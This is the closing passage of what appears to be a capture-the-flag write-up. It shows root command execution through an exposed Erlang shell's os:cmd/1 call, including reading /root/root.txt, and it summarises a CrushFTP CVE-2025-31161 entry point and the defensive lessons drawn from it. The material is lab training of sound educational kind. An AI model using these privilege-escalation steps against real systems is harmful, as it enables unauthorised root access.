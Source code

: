 **Command Execution as Root:**
```erlang
(ssh_runner@soulmate)4> os:cmd("whoami").
"root\n"
```

**Root Flag Retrieval:**
```erlang
(ssh_runner@soulmate)5> os:cmd("cat /root/root.txt").
"79d6192f<REDACTED>"
```

The Erlang shell's `os:cmd/1` function allowed direct execution of system commands with root privileges, providing immediate privilege escalation without requiring additional exploits.

---
## Conclusions

- **User Access:** Obtained by exploiting CVE-2025-31161 on CrushFTP and modifying Ben's password through management panel.
- **Privilege Escalation:** Exploited Erlang service listening on port 2222, allowing command execution as root via `os:cmd/1` function.
- **Key Lessons:**
  - Update software to mitigate known vulnerabilities (CVE-2025-31161).
  - Restrict permissions of internal services (Erlang) to prevent privilege escalation.
  privilege escalation.
  